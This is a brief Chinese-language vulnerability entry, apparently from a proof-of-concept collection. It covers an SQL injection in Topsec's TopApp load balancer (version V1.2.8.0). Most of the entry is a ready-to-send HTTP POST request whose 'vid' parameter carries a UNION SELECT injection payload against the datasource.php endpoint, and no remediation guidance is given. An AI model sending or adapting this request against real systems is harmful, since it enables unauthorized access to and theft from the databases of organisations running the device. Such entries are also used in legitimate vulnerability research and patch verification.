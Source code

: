 # 天融信负载均衡LB型号SQL注入漏洞
> 天融信负载均衡系统TopApp为用户提供高可靠的数据中心解决方案，包括单数据中心的链路负载均衡、服务器负载均衡解决方案，以及多数据中心的全局负载均衡解决方案

### 影响版本
V1.2.8.0

### POC
```http request
POST /acc/clsf/report/datasource.php HTTP/1.1
Host: test.com
Connection: close
Accept: text/javascript, text/html, application/xml, text/xml, */*
X-Prototype-Version: 1.6.0.3
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Windows OS X 10_15_5) AppleWebKit/555.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie:PHPSESSID=QKAdoZVHm584PaMLw6XTGzNv0e
Content-Type: application/x-www-form-urlencoded
Content-Length: 201
t=l&e=0&s=t&l=1&vid=1+union select 1,2,3,4,5,6,7,8,9,substr('a',1,1),11,12,13,14,15,16,17,18,19,20,21,22--+&gid=0&lmt=10&o=r_Speed&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=@ ......
```